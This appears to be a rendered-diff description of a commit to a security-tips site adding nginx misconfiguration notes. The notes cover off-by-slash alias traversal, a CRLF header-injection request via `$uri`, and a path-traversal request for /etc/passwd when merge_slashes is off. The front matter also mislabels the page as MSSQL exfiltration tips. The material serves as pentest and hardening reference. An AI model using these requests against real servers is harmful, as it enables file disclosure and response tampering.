

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/nginx.md, in a window 1280 px wide and 900 px high, scrolled down 406 px. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update nginx configuration to add $uri CRLF and merge_slashes

````diff
--- a/docs/nginx.md
+++ b/docs/nginx.md
@@ -1,7 +1,22 @@
-Nginx
-=====
+---
+title: "Nginx"
+description: "Tips to exfiltrate information from a MSSQL database."
+date: 31/07/2019
+categories:
+ - web
+tags:
+ - nginx
+ - web
+---
 
-## Configuration file
+## Misconfiguration
+
+Configuration file may include vulnerabilities allowing an attacker to access files
+out of the root folder or injecting headers.
+
+
+### Missing slash (Off-By-Slash)
+
 Here is a miss-configuration in the the `nginx.conf` file:
 
 ```nginx
@@ -14,7 +29,57 @@
 The location value does not end with a `/` but the alias value does. Which means that if we query: `https://example.com/static../foo` then the location will match and will concatenate `../foo` to the alias, which gives us this local file access: `/srv/app/static/../foo`
 
 
+### `$uri` normalization leads to CRLF injection
+
+The variable `$uri` (and `$document_uri`) is normaized, that mean URLencoded chars
+will be decoded. If this variable is used in a redirection or in `rewrite` then
+it's possible to inject characters in `Location` header:
+
+```j2
+location / {
+    return 302 https://$host$uri;
+}
+location / {
+    rewrite ^ https://$host/$uri;
+}
+```
+
+Here is an example with the following request:
+
+```http
+GET /notexist%0d%0aX-Vincd:%20New-Header-Value HTTP/1.0
+Host: vincd.com
+```
+
+The response will be something like:
+
+```http
+HTTP/1.1 302 Moved Temporarily
+Server: nginx
+...
+Location: https://vincd.com/notexist
+X-Vincd: New-Header-Value
+```
+
+### `merge_slashes` set to off
+
+The [`merge_slashes`](http://nginx.org/en/docs/http/ngx_http_core_module.html#merge_slashes)
+directive is a mecanisme to to merge two consecutive slashes. By default this
+confguration is set to `on`.
+
+If the configuration is set to `off` and the reversed-proxy application is
+vulnerable to `Local-File-Inclusion` then it's possible to exploit it.
+[This article](https://medium.com/appsflyer/nginx-may-be-protecting-your-applications-from-traversal-attacks-without-you-even-knowing-b08f882fd43d)
+from `Danny Robinson` and `Roten Bar` detailed this exploitation.
+
+```http
+GET /////../../../../../etc/passwd HTTP/1.1
+Host: vincd.com
+```
+
+
 ## RCE in php-fpm (CVE-2019-11043)
+
 If a webserver runs nginx + php-fpm and nginx have a configuration like
 
 ```nginx
````
